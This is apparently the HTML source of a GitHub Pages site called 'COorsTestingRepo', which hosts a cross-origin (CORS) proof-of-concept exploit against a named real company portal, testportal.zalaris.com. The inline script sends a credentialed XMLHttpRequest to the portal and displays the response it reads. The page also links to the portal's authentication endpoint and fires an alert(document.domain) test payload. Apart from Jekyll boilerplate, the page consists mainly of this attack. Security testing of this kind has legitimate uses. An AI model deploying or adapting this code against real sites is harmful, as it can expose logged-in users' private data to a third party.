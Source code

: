 <html lang="en-US"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.8.0 --><title>COorsTestingRepo</title><meta name="generator" content="Jekyll v3.9.2" /><meta property="og:title" content="COorsTestingRepo" /><meta property="og:locale" content="en_US" /><link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:site_name" content="COorsTestingRepo" /><meta property="og:type" content="website" /><meta name="twitter:card" content="summary" /><meta property="twitter:title" content="COorsTestingRepo" /><script type="application/ld+json">{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag --><link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect"><!-- start custom head snippets, customize with your own _includes/head-custom.html file --><!-- Setup Google Analytics --><!-- You can set your favicon here --><!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" --><!-- end custom head snippets --></head><body><div class="container-lg px-3 my-5 markdown-body"><h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1><html><body><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://testportal.zalaris.com",true);xhttp.withCredentials=true;xhttp.send()}cors();</script></body></html></div><script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg="crossorigin="anonymous"></script><script>anchors.add();</script><script>window.onload=alert(document.domain);</script></body></html>
